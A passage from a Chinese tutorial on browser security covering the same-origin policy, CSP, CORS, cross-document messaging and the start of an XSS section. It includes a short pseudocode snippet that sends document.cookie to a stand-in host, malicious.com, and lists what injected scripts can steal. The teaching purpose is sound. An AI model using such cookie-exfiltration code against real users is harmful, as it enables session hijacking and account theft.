 最多的一个问题是浏览器的首页内容会被一些恶意程序劫持，其中最常见的是恶意程序通过各种途径往 HTML 文件中插入恶意脚本。

比如：恶意程序在 HTML 文件中插入如下 JavaScript 代码：

![img](https://static001.geekbang.org/resource/image/74/de/741dc2c53217aee177d18375a7aa94de.png)

浏览器是无法区分被插入的文件是恶意的还是正常的，当页面启动时，它可以修改用户的搜索结果、改变一些内容的连接指向，等等。

除此之外，它还能将页面的敏感数据，如Cookie、IndexDB、LoacalStorage 等数据通过 XSS 的手段发送给服务器。如下面这段伪代码：

```javascript
function onClick(){
  let url = `http://malicious.com?cookie = ${document.cookie}`
  open(url)
}
onClick()
```

在这段代码中，恶意脚本读取 Cookie 数据，并将其作为参数添加至恶意站点尾部，当打开该恶意页面时，恶意服务器就能接收到当前用户的 Cookie 信息。

以上就是一个非常典型的 **XSS 攻击**。为了解决 XSS 攻击，浏览器中引入了内容安全策略，称为 CSP。**CSP 的核心思想是让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联 JavaScript 代码。**通过这些手段就可以大大减少 XSS 攻击。

#### 2. 跨域资源共享和跨文档消息机制

**跨域资源共享（CORS）**：使用该机制可以进行跨域访问控制，从而使跨域数据传输得以安全进行。比如可以在极客官网通过 XMLHttpRequest 请求 InfoQ 中的资源。

**跨文档消息机制**：如果两个页面不同源，则无法相互操作 DOM。但在实际应用中，经常需要两个不同源的 DOM 之间进行通信，于是引入了该机制。可以通过 window.postMessage 的 JavaScript 接口来和不同源的 DOM 进行通信。

### 总结

同源策略会隔离不同源的 DOM、页面数据和网络通信，进而实现 Web 页面的安全性。

不过鱼和熊掌不可兼得，要绝对的安全就要牺牲掉便利性，因此我们要在这二者之间做权衡，找到中间的一个平衡点，也就是目前的页面安全策略原型。总结起来，它具备以下三个特点：

1. 页面中可以引用第三方资源，不过这也暴露了很多诸如 XSS 的安全问题，因此又在这种开放的基础之上引入了 CSP 来限制其自由程度。
2. 使用 XMLHttpRequest 和 Fetch 都是无法直接进行跨域请求的，因此浏览器又在这种严格策略的基础之上引入了跨域资源共享策略，让其可以安全地进行跨域操作。
3. 两个不同源的 DOM 是不能相互操纵的，因此，浏览器中又实现了跨文档消息机制，让其可以比较安全地通信。



## 跨站脚本攻击（XSS）：为什么 Cookie 中有 HttpOnly 属性？

同源策略为了协调安全性和便捷性，需要在两者间寻找一个平衡点，所以默认页面中可以引用任意第三方资源，然后又引入 CSP 策略来加以限制；默认 XMLHttpRequest 和 Fetch 不能跨站请求资源，然后又通过 CORS 策略来支持其跨域。

不过支持页面中的第三方资源引用和 CORS 也带来了很多安全问题，其中最典型的就是 **XSS 攻击。**

### 什么是 XSS攻击

XSS 全称 Cross Site Scripting，即“跨站脚本”。XSS 攻击是指黑客往 HTML 文件中或者 DOM 中注入恶意脚本，从而在用户浏览页面时利用注入的恶意脚本对用户实施攻击的一种手段。

当页面被注入了恶意 JavaScript 脚本时，浏览器无法区分这些脚本是被恶意注入的还是正常的页面内容，所以恶意注入 JavaScript 脚本也拥有所有的脚本权限。

恶意脚本能做的事：

* **窃取 Cookie 信息**：恶意 JavaScript 可以通过“document.cookie”获取 Cookie 信息，然后通过 XMLHttpRequest 或者 Fetch 加上 CORS 功能将数据发送给恶意服务器；恶意服务器拿到用户的 Cookie 信息之后，就可以在其他电脑上模拟用户的登录，然后进行转账等操作。
* **监听用户行为**：恶意 JavaScript 可以使用“addEventListener”接口来监听键盘事件，比如可以获取用户输入的信用卡等信息，将其发送到恶意服务器。黑客掌握了这些信息之后，又可以做很多违法的事情。
* 通过**修改 DOM **伪造假的登录窗口，用来欺骗用户输入用户名和密码等信息。
* **在页面内生成浮窗广告**，这些广告会严重地影响用户体验。
* ……
